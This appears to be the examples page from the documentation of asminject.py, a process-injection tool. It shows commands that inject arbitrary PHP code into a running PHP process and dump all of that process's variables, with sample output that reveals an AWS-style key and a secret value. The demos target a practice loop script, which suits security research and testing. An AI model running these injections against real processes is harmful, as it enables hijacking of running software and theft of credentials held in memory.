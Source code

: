 # asminject.py examples - PHP
* [Execute arbitrary PHP code inside an existing PHP process](#execute-arbitrary-php-code-inside-an-existing-php-process)
* [Write all variables to standard out](#write-all-variables-to-standard-out)

## Execute arbitrary PHP code inside an existing PHP process

The `execute_php_code.s` payload requires two variables: `phpcode`, which should contain the PHP code that should be executed in the existing PHP process, and `phpname`, which can generally be set to any string.

This payload requires relative offsets for the `php` binary used by the target process.

In one terminal window, launch the practice PHP loop, e.g.:

```
$ php practice/php_loop.php

2022-05-12T13:40:51-0700 - Loop count 0
2022-05-12T13:40:56-0700 - Loop count 1
2022-05-12T13:41:01-0700 - Loop count 2
```

In a separate window, find the target process, and inject the code:

```
# ps auxww | grep php | grep -v grep  
  
root     2037629  [...] php practice/php_loop.php

# python3 ./asminject.py 2037629 execute_php_code.s \
   --relative-offsets-from-binaries \
   --var phpcode "echo \\\"Injected PHP code\\\n\\\";" \
   --var phpname PHP
```

Note that on ARM32 Linux, you may need to flag the `php` binary as non-PIC code, e.g.:

```
# python3 ./asminject.py 483 execute_php_code.s \
   --relative-offsets-from-binaries \
   --var phpcode "echo \\\"Injected PHP code\\\n\\\";" \
   --var phpname PHP \
   --non-pic-binary 'bin/php'
```

In the first window, note that the loop is interrupted by the injected code, e.g.:

```
2022-05-12T13:41:46-0700 - Loop count 11
Injected PHP code
2022-05-12T13:41:53-0700 - Loop count 12
2022-05-12T13:41:58-0700 - Loop count 13
```

## Write all variables to standard out

Use [the following PHP code, which was based on this Stack Overflow discussion](https://stackoverflow.com/questions/1005021/in-php-is-there-a-way-to-dump-all-variable-names-with-their-corresponding-valu)

```
var_dump(get_defined_vars());
```

e.g.

```
python3 ./asminject.py 249986 execute_php_code.s \
   --relative-offsets-from-binaries \
   --var phpcode "var_dump(get_defined_vars());" \
   --var phpname PHP
```


Example output:

```
2022-06-09T16:18:04-0700 - Loop count 8
array(11) {
  ["_GET"]=>
  array(0) {
  }
  ["_POST"]=>
  array(0) {
  }
  ["_COOKIE"]=>
  array(0) {
  }
  ["_FILES"]=>
  array(0) {
  }
  ["argv"]=>
  array(1) {
    [0]=>
    string(21) "practice/php_loop.php"
  }
...omitted for brevity...
["example_global_var_1"]=>
  string(20) "AKIASADF9370235SUAS0"
  ["example_global_var_2"]=>
  string(34) "This value should not be disclosed"
  ["x"]=>
  int(8)
  ["current_timestamp"]=>
  string(24) "2022-06-09T16:18:04-0700"
}
2022-06-09T16:18:13-0700 - Loop count 9
```
